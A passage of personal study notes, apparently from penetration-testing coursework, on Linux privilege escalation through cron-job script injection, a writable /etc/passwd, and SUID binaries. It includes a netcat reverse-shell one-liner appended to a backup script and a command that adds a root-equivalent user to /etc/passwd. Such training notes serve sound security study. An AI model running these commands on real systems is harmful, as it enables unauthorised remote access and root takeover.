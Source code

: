 Inserting a reverse shell one-liner
	`cd .scripts`
	`echo >> user_backups.sh`
	`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our_ip> 1234 >/tmp/f" >> user_backups.sh`
	cat to verify

Start listener and and wait for cron job to execute
	`nc -lvnp 1234`

###### Abusing Password Auth
Unless AD of LDAP is used, Linux passwords are generally stored in /etc/shadow
	not readable by normal users
	For backwards compatibility, if a hash is located in /etc/passwd, it is considered valid

Assume /etc/passwd does not have correct permissions set
	we can edit /etc/passwd to modify the root password and escalate our privleges

Demonstration
	Generate MD5 hash
		`openssl passwd w00t`
			Fdzt.eqJQ4s0g `#NOTE: Older linux systems, openssl may default to DES`
	Modify /etc/passwd
		`echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd`
	Switch user
		`su root2`
	Verify
		`id`


#### Insecure System Components

###### Abusing Setuid Binaries and Capabilities

When not properly secured, setuid binaries can lead to attacks that elevate privileges 

When a user or a system-automated script launches a process, it inherits the UID/GID of its initiating script: this is known as the real UID/GID.
	as an example
	`passwd` is used to change a user's password
	but this requires modifying /etc/shadow
	`ps u -C passwd`
		we see this command is run as root as this is needed to modify /etc/shadow
		take note of PID = 1932

Inspecting passwd's process credentials
```
joe@debian-privesc:~$ grep Uid /proc/1932/status
Uid:	1000	0	0	0
```
	UID = 1000 (user)
	but the next 3 0s indicate ROOT

To explain, the passwd binary has a special flag names Set-User-ID (SUID)
```
joe@debian-privesc:~$ ls -asl /usr/bin/passwd
64 -rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
```
look
	instead of RWX, it is RWS
	can be configured with `chmod u+s <filename>`
